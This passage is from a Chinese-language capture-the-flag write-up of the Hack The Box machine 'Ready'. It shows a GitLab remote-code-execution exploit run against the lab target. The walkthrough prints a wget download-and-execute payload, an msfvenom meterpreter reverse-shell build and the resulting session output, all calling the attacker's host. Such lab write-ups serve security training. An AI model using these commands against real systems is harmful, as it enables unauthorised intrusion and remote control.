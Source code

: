 linux为了安全考虑，一般会禁用nc的-e和-c参数

我们首先要证明确实是存在RCE，然后再想其他办法反弹shell回来

我们把上面那行代码改为：
```
 f'wget http://10.10.16.2/any'
```

在kali本地开一个http服务器，然后执行exp，收到get请求，证明rce存在
```
┌──(root💀kali)-[~/htb/Ready]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.220 - - [01/Jul/2022 05:22:07] code 404, message File not found
10.10.10.220 - - [01/Jul/2022 05:22:07] "GET /any HTTP/1.1" 404 -

```

# foothold

编译一个exp
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.16.2 LPORT=4242 -f elf > shell.elf
```

起一个http服务
```
┌──(root💀kali)-[~/htb/Ready]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

上面49334.py的payload改为

```
wget http://10.10.16.2/shell.elf -O /tmp/shell.elf&&chmod 777 /tmp/shell.elf&&/tmp/shell.elf
```

如果上面payload执行不了尝试分三次执行


触发攻击
```
┌──(root💀kali)-[~/htb/Ready]
└─# python3 49334.py -u chen -p 123456789 -g 'http://10.10.10.220' -l 10.10.16.2 -P 5080
[+] authenticity_token: 8IMetc2Ptcb5HXlnRVYTK3YdOhCdLQ39XTrwO2FOjxHBAF+SJbzuwNYB9udD2jQnC1Tlg5oNRNczOisNZa3Aog==
[+] Creating project with random name: project4047
[+] Running Exploit
[+] Exploit completed successfully!
```

拿到user.txt
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.2:4242 
[*] Sending stage (989032 bytes) to 10.10.10.220
[*] Meterpreter session 4 opened (10.10.16.2:4242 -> 10.10.10.220:42282) at 2022-07-18 02:55:05 -0400

meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
```